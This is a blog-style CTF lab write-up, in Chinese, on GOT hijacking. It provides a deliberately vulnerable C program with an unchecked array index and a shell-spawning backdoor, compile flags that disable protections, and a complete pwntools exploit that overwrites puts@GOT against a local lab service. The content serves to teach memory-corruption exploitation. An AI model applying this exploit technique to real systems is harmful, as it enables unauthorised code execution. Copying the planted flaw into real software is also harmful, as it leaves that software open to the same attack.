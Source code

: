 ```yaml
---
title: "Day10－GOT Hijacking"
date: 2024-09-24
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

前一天我們介紹了 GOT 和 Lazy Binding 的機制，今天要介紹的是如何利用這些機制進行攻擊，也就是 GOT Hijacking。

## 簡介

由於 Lazy Binding 的機制，GOT 是可寫的。因此，如果能夠覆蓋 GOT 的值，那麼下次呼叫該函數時，就可以控制即將執行的函數指針。這種情況通常出現在陣列未驗證輸入範圍、記憶體越界（即所謂的 out of bounds，oob）或是透過格式化字串（format string）將特定值寫入 GOT 的情況。

## Lab

```c
#include<stdio.h>
#include<stdlib.h>

int backdoor(const char *arg){
    system("/bin/sh");
}

long long value[4];

int main(){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long index;
    for(int i = 0; i < 4; i++){
        puts("Enter a index to store a value: ");
        scanf("%lld", &index);
        puts("Enter a value: ");
        scanf("%lld", &value[index]);
    }
    if(value[0] != 123){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[1] != 456){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[2] != 789){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[3] != 101112){
        puts("CHECK FAILED\n");
        exit(0);
    }
    puts("CHECK PASSED\n");
    return 0;
}
```

使用以下指令進行編譯（注意，預設編譯會是 Partial RELRO）：

```bash
gcc src/got.c -o ./got/share/got -fno-stack-protector -no-pie
```

大家可以嘗試練習這道題目，或者繼續閱讀以下的解題步驟。

## writeup

首先，這道題目有一個 `backdoor()` 函數，該函數會直接打開一個 shell。此外，程式允許我們四次機會編輯陣列 `value` 中的值，並且可以自由選擇要修改哪個索引值。由於沒有驗證索引範圍，因此我們可以利用 oob（out of bounds）漏洞，再加上 GOT Hijacking，將某個函數指針覆蓋，使其執行 `backdoor` 函數。

這題相對簡單，因為可以使用 `objdump` 來 disassemble 程式，從中計算應該填入哪些位置。從 `main` 函數可以看到 `value` 陣列的位址是 0x404080。

![image](/images/iron2024/day10_image1.png)

接下來我們需要找出該填入的位置與 `value` 陣列位址之間的差異。在這裡，我們選擇覆蓋 `puts` 函數，因為在寫入值之後會呼叫 `puts` 函數。確認一下 `puts` 的 GOT 位址是 0x404000，依此就能判斷應該覆蓋哪個索引。

![image](/images/iron2024/day10_image2.png)

接著，我們要將 `backdoor` 函數的位址（0x401166）寫入。

![image](/images/iron2024/day10_image3.png)

現在所有資訊都已經掌握，可以開始編寫 exploit。

記得因為程式直接接收數字及數值，因此以字串的形式輸入即可。

完整 exploit：
```python
from pwn import *

# r = process('../got/share/got')
r = remote('127.0.0.1', 10002)

value = 0x404080
puts_got = 0x404000
backdoor = 0x401166

offset = (puts_got - value) // 8
r.sendlineafter(b'Enter a index to store a value: \n', str(offset).encode())
r.sendlineafter(b'Enter a value: \n', str(backdoor).encode())
r.interactive()
```

solved！！

![image](/images/iron2024/day10_image4.png)

